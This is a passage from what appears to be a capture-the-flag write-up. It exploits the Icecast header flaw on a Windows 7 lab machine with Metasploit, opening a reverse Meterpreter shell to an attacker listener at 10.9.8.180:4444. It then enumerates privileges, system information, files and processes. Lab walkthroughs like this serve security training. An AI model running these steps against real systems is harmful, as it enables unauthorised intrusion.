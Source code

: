 Then start the exploitation
```bash
msf6 exploit(windows/http/icecast_header) > exploit
[*] Started reverse TCP handler on 10.9.8.180:4444 
[*] Sending stage (177734 bytes) to 10.10.37.29
[*] Meterpreter session 1 opened (10.9.8.180:4444 -> 10.10.37.29:49245) at 2025-07-19 06:21:12 -0400
meterpreter >
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
We have successfully gained access to the target machine! Use the `help` or `?` command to show you the help menu 

## Escalate

Now that we have gained access, let's start the enumeration
```bash
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > pwd
C:\Program Files (x86)\Icecast2 Win32
meterpreter > ls
Listing: C:\Program Files (x86)\Icecast2 Win32
==============================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  512000  fil   2004-01-08 09:26:45 -0500  Icecast2.exe
040777/rwxrwxrwx  4096    dir   2019-11-12 18:04:09 -0500  admin
040777/rwxrwxrwx  0       dir   2019-11-12 18:04:09 -0500  doc
100666/rw-rw-rw-  3663    fil   2004-01-08 09:25:30 -0500  icecast.xml
100777/rwxrwxrwx  253952  fil   2004-01-08 09:27:09 -0500  icecast2console.exe
100666/rw-rw-rw-  872448  fil   2002-06-27 21:11:54 -0400  iconv.dll
100666/rw-rw-rw-  188477  fil   2003-04-12 23:29:12 -0400  libcurl.dll
100666/rw-rw-rw-  631296  fil   2002-07-10 22:09:00 -0400  libxml2.dll
100666/rw-rw-rw-  128000  fil   2002-07-10 22:11:54 -0400  libxslt.dll
040777/rwxrwxrwx  0       dir   2019-11-12 18:26:02 -0500  logs
100666/rw-rw-rw-  53299   fil   2002-03-23 09:48:14 -0500  pthreadVSE.dll
100666/rw-rw-rw-  2380    fil   2019-11-12 18:04:09 -0500  unins000.dat
100777/rwxrwxrwx  71588   fil   2003-04-14 04:00:00 -0400  unins000.exe
040777/rwxrwxrwx  0       dir   2019-11-12 18:04:09 -0500  web
meterpreter > ps

Process List
============

```